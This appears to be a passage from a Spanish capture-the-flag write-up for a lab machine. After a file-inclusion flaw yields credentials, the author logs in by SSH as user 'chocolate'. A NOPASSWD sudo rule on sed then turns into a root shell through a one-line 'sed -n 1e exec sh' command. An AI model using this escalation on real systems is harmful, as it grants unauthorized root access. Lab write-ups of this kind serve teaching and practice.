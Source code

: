 Ya que solo tenemos la contrasena y Sabemos que mediante el archivo **passwd** vimos que existe un usuario **chocolate** asi que probaremos conectarnos con estas credenciales
### Intrusion
Nos conectamos por **ssh**
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh chocolate@172.17.0.2
```

---
## Escalada de Privilegios

###### Usuario `[ Chocolate ]`:
Listando permisos para este usuario tenemos lo siguiente:
```bash
sudo -l

User chocolate may run the following commands on 8428616f3407:
    (ALL) NOPASSWD: /usr/bin/sed
```

Nos aprovechamos para explotar el binario:
```bash
# Comando para escalar al usuario: ( root )
sudo -u root /usr/bin/sed -n '1e exec sh 1>&0' /etc/hosts
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a abusar de un parametro en la consulta **php** para derivarlo a un **LFI**
2. Aprendimos a abusar del bianario de **sed** para ganar acceso como **root**
